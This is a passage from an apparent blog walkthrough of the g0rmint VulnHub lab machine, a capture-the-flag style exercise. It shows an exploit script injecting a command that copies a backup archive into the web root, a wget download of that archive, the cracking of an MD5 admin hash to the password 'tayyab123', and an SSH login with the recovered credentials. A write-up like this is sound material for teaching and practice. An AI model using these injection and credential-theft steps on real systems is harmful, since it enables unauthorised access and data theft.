 ```
/var/www:
total 3672
drwxr-xr-x  3 root     root        4096 Nov  3 02:51 .
drwxr-xr-x 12 root     root        4096 Nov  2 03:42 ..
-rw-r--r--  1 root     root     3747496 Nov  3 02:43 backup.zip
drwxr-xr-x  3 www-data www-data    4096 Nov  3 04:08 html
```

I helped myself to the file by copying it to the web root like so:

```
# ./exploit.sh w3bdrill3r@gmail.com 30e1a63a8968b727f276 "cp /var/www/backup.zip /var/www/html"
```

Next, I downloaded the file using `wget`.

```
# wget http://192.168.198.130/backup.zip
--2018-02-02 14:46:19-- http://192.168.198.130/backup.zip
Connecting to 192.168.198.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3747496 (3.6M) [application/zip]
Saving to: ‘backup.zip’

backup.zip 100%[==================================>] 3.57M --.-KB/s in 0.1s

2018-02-02 14:46:19 (27.6 MB/s) - ‘backup.zip’ saved [3747496/3747496]
```

It appeared to be just like the previous `backup.zip` with a twist. This time round, `db.sql` showed the original admin password hash!

![db.sql](/assets/images/posts/g0rmint-walkthrough/g0rmint-17.png)

The password was revealed to be `"tayyab123"` after going through an online MD5 [cracker][3].

### SSH Login

Let's try using the credentials `(g0rmint:tayyab123)` for a low-privilege shell.

![g0rmint](/assets/images/posts/g0rmint-walkthrough/g0rmint-18.png)

Awesome!

### Privilege Escalation


[1]: https://www.vulnhub.com/entry/g0rmint-1,214/
[2]: https://www.vulnhub.com/
[3]: http://md5decrypt.net/